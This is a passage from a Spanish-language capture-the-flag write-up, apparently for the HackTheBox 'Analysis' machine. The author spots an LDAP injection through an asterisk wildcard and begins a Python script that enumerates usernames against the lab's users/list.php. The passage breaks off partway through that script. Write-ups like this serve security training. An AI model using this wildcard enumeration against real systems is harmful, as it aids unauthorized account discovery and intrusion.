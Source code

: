 Ahora bien, debo de saber que nombres de usuario hay que introducir para ver su información así que estamos en las mismas.

Pero por detrás se debe de estar haciendo alguna consulta a una base de datos.

## LDAP Injection
Tras probar varios payloads para una SQLi, probé el asterisco `*` y me devolvió un usuario. Esto es un indicio de que por detrás se están haciendo consultas por LDAP.
![Write-up Image](images/Screenshot_8.png)

Vamos a scriptear esto con python para descubrir usuarios.

Esta es la primera versión del script para buscar usuarios.

```python
#!/usr/bin/python3
import requests
import string
import html2text
import os
import re
import signal
from pwn import *
from itertools import product

base_url = "http://internal.analysis.htb/users/list.php"

charset = string.ascii_lowercase  # a-z

h2t = html2text.HTML2Text()
h2t.ignore_linkgs = True

user_regex = re.compile(r'<strong>(.*?)</strong>')

users = []

def def_handler(x,y):
    log.info("Saliendo..")
    log.info(f"Usuarios recuperados {len(users)}")
    for user in users:
        print(user)
    exit(1)

signal.signal(signal.SIGINT,def_handler)

def check_user(prefix):
    url = f"{base_url}?name={prefix}*"
    response = requests.get(url)
```